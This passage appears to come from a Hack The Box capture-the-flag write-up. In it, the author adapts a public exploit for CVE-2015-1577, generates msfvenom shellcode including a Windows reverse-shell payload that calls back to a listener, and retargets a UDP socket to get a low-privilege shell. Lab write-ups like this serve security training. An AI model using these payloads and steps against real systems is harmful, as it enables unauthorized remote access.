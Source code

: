 searching on `searchsploit we had one that was for python` which was a `CVE-2015-1577`
![Alt text](/assets/img/htb/devel/dev_019.png)

so added some modifications to the command 
```python
# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4001 -e x86/unicode_mixed ................`

I replaced the payload with the payload that I generated and set up a listener on port 4001

and also changed the server_address 
```python
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```

and I got a shell as a low privileged user
